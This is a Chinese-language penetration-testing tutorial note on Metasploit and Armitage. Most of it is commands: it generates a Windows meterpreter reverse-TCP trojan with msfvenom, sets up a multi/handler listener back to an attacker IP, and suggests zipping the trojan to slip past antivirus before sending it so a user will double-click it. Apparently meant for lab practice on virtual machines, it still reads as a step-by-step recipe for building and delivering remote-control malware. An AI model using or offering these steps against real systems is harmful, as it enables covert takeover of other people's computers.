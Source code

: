# 渗透测试基础09

# MSF框架以及使用（metasploit、armitage、命令行使用msf（Windows的漏洞）、利用漏洞永恒之蓝ms17_010、msf内网渗透生成各类木马、meterpreter操作（UAC提权和绕过提权）、GitHub上的相关工具（安卓相关：后门生成器、捆绑安卓木马、攻击框架））

使用工具：新版kali、bitvise+Windows虚拟机

**msf**

**metasploit**



## metasploit

msf其实就是一个攻击框架，几乎所有工具都是开源的，会编程的话可以自己做一个修改

armitage是msf的一个图形界面

### 打开armitage使用步骤

```
msfdb init
#初始化msf数据库
armitage
默认连接connect，yes
```

### 使用命令行

```
sudo su进入root权限
```

```
msfconsole
# 进入metasploit里面

use exploit/multi/handler
#准备监听某个木马
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.1.104
set LPORT 3707
exploit
# 此时就完成了下文图形化界面中使用某payload攻击载荷木马监听windows主机的操作

如果有杀毒软件，可以试试把木马压缩一下之后再发送
zip -r 压缩文件名 木马程序名

用户双击木马运行了之后，就可以在图形化界面看到木马上线

用命令行配置木马：（不同操作系统命令不一样）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=3707 -f exe > shell.exe
zip -r shell.rar shell.exe
然后用bitvise ssh client软件将其压缩文件发到目标电脑上即可测试使用
use exploit/multi/handler
#准备监听某个木马
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST 192.168.1.104
set LPORT 4444
exploit
sessions -i 1   #进入控制该木马
```